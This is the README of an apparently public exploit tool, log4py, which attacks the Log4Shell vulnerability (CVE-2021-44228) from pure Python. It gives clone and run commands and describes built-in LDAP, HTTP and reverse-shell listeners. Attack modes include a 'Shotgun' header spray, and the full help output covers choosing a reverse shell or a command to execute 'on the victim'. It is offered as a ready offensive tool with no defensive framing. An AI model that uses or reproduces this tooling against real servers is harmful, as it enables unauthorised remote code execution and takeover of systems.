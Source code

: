 # log4py
Pure python reverse shell for CVE-2021-44228 log4shell. Big thanks to [dotPY-hax/log4py](https://github.com/dotPY-hax/log4py) for the original pure python PoC and pre-compiled java bytecode.

## Features:
* Pure python, no java required!
* Built in LDAP, HTTP and ReverseShell listeners
* Easily custimizable command line arguments
* Different built-in attack modules:
	* Manual - Simply gives you the JNDI payload link for you to manually post to the target [default]
	* Header Attack - Specify URL, Method and Header to send the JNDI payload in
	* Shotgun - Specify URL and spray the JNDI header as many places as possible, hoping that one of them triggers loggin to log4j
* Different Payloads:
	* Pure Java Reverse Shell - Optionally specify shell to execute commands with. The log4py has built in interactive reverse shell listener! [default]
	* Execute Shell Command - Specify single command to execute on the target


# Usage:
Download repository:
```bash
git clone https://github.com/ItemizeNTNU/log4py
cd log4py
```
Then to run the exploit:
```bash
python3 main.py --ip <your callback ip>
```
Example output:
![Example outout of reverse shell](./docs/images/reverse-shell.png)

Then simply upload the JNDI string to the vulnerable log4j application.

The script starts 3 servers on your machine with default ports:
* LDAP server on port 49501
* HTTP server on port 49502
* Reverse Shell server on port 49503

# Options
Use `python3 main.py --help` for help on different options:
```java
usage: main.py [-h] [--ip IP] [--ldap-port {1..65535}] [--http-port {1..65535}] [--attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}] [--payload {ReverseShell,ShellCommand}] [--once]
               [--specific-listener] [--list-attacks] [--list-payloads] [--attack-http-header-method {GET, POST, OPTIONS, ...}] [--attack-http-header-header HEADER_NAME]
               [--payload-reverse-shell-port {1..65535}] [--payload-reverse-shell-shell SHELL] [--payload-shell-command-cmd CMD]

Pure python Log4Shell Exploiter

optional arguments:
  -h, --help                                                  show this help message and exit
  --ip IP                                                     Callback ip that the victim server can reach you at (default: auto)
  --ldap-port {1..65535}                                      Port to listen at for the LDAP server (default: 49501)
  --http-port {1..65535}                                      Port to listen at for the HTTP server (default: 49502)
  --attack {ManualAttack,HTTPHeaderAttack,HTTPShotgunAttack}  Callback ip that the victim server can reach you at (default: ManualAttack)
  --payload {ReverseShell,ShellCommand}                       Java payload class to send (default: ReverseShell)
  --once                                                      If true, listeners will only listen for one connection then close (default: False)
  --specific-listener                                         If true, only listen on the specific --ip, else listen on 0.0.0.0 (default: False)
  --list-attacks                                              List all available attacks (default: False)
  --list-payloads                                             List all available payloads (default: False)
  --attack-http-header-method {GET, POST, OPTIONS, ...}       HTTP method to use for the HTTPHeaderAttack (default: GET)
  --attack-http-header-header HEADER_NAME                     Header to inject the JNDI payload to (default: None)
  --payload-reverse-shell-port {1..65535}                     Port to listen at for the reverse shell payload (default: 49503)
  --payload-reverse-shell-shell SHELL                         Shell to execute interactive commands with (default: /bin/sh)
  --payload-shell-command-cmd CMD                             Command to execute on the victim (default: None)
```

# Todo:
* More custimizable java payloads, possible optional integration with javac for auto compilation